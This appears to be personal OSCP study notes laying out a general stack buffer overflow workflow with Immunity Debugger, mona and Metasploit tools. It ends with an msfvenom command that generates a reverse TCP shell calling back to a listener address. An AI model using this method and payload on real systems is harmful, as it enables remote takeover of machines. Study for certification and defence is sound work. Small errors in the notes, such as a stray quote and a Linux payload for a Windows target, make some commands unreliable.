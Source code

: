 # Buffer Overflow

## General Flow
Using the `bof-complete.py` script. This is used as a general reference flow as part of my OSCP prep. 

### Part 1

1. Create a fuzzing script and start with a buffer size of 100 
2. Keep increasing the buffer until the application crashes

### Part 2 - Control the EIP
1. `msf-pattern_create -l 300` (Change this size to whatever the buffer was on crash)
2. Save pattern in "buff" variable and re-run
3. In Immunity Debugger, see what value was writted in EIP

### Part 3 - Set the offset

1. Find the offset: `msf-pattern_offset -l 300 -q 316A4130` (Example: 272)
2. Shorten the buffer, make EIP = "B", and make an offset ("C") 
3. Run again with new script and make sure EIP is writted as B (42424242)

### Part 4 - Expand the Stack (Make room for shellcode)

1. Make new variable equal to "D" and increase overall size - may need to adjust until app doesn't crash

Note: Need about 100-200 bytes for most stable tcp reverse shells

### Part 5 - Find the Bad Characters

1. Create a new variable with all the possible characters in hex
2. Follow dump of ESP to identify all bad characters (Right-click ESP, follow in dump)
3. Re-run as many times as needed, taking note of all bad characters

Optional: use `mona.py` script to hunt bad chars

### Part 6 - Jumping to the Stack & Creating Shellcode

1. First, Find a way to jump (One of these options):
	1. First try to JMP ESP: `!mona find -s "\xff\xe4" -m "dawn.exe"` 
	2. Second, try PUSH ESP; RET: `!mona find -s "\x53\xc3" -m "dawn.exe"`
	3. Third, try CALL ESP: `!mona find -s ""\xff\xd4" -m "dawn.exe"`
	4. Note: Make sure none of these addresses have a bad char!
	5. NOTE: REVERSE THE ORDER OF THE BYTES!
	6. Change code to match returned EIP address 

**FOR THE LOVE OF GOD, DON'T FORGET TO REVERSE THE ORDER! Endianness and all that...**

2. Generate shell code: 
	1. `msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.49.229 lport=80 -f python -b '\x00'`
	2. Include all bad characters after `-b` 
3. Add shellcode and create NOP Slide 
4. One last test to make sure it works (Don't forget to start the listener!)
5. Exploit!
